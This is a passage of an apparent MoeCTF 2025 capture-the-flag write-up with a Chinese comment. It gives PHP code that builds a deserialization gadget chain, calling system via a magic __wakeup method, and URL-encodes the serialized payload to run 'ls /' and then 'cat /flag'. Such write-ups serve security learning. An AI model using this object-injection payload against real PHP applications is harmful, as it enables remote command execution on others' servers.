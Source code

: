```php
        {
            die("Hacker!");
        }
        $name = $this->name;
        $name($age);
    }

    public function __wakeup()
    {
        $age = $this->age;
        $name = $this->id;
        $name->age = $age;
        $name($this);
    }
}

$pwn = new PersonA();
$pc = new PersonC();
$pc -> name = "system";
$pwn -> name = $pc;
$pwn -> id = "__Check";
$pwn -> age = "ls /";

$payload = serialize($pwn);
echo urlencode($payload);
```

直接改 `$pwn -> age = "cat /flag"` 没过滤这里。

![image.png](../../assets/images/moectf2025wp/image_47.png)